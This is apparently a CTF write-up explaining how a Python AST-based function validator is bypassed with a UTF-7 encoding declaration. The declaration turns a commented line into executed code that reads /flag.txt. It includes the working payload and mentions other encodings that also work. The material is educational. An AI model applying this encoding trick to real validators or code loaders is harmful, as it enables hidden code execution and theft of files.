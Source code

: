Flag location: `/flag.txt`

### Solution

```python
def get_fn_name(source: str) -> str | None:
    root = ast.parse(source)
    if type(root) is not ast.Module:
        return None
    if len(root.body) != 1:
        return None

    fn = root.body[0]
    if type(fn) is not ast.FunctionDef:
        return None

    fn.body.clear()
    if not re.fullmatch(r"def \w+\((\w+(, \w+)*)?\):", ast.unparse(fn)):
        # You must define a function without decorators, type annotations, and so on.
        return None

    return str(fn.name)
```
The limitation using AST prevents trivial RCEs.

As a important point, `ast.parse` ignores comments in the source code. By the way, Python has a feature called **magic comment**:

- https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations
- https://docs.python.org/3/library/codecs.html#standard-encodings

Magic comment is just a comment in `get_fn_name`, but it is recognized as a magic comment for module imports:
```python
    spec = util.spec_from_file_location("tmp", file.name)
    spec.loader.exec_module(util.module_from_spec(spec))
```

In fact, you can bypass it with UTF-7:
```
# coding: utf_7
def f(x):
    return x
    #+AAo-print(open("/flag.txt").read())
__EOF__
```

`+AAo-` is `\n` on the UTF-7 encoding, and the above code as a module is:
```python
def f(x):
    return x

print(open("/flag.txt").read())
```

It is also possible to bypass it using other encodings, e.g. `raw_unicode_escape` and `unicode_escape`.


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.
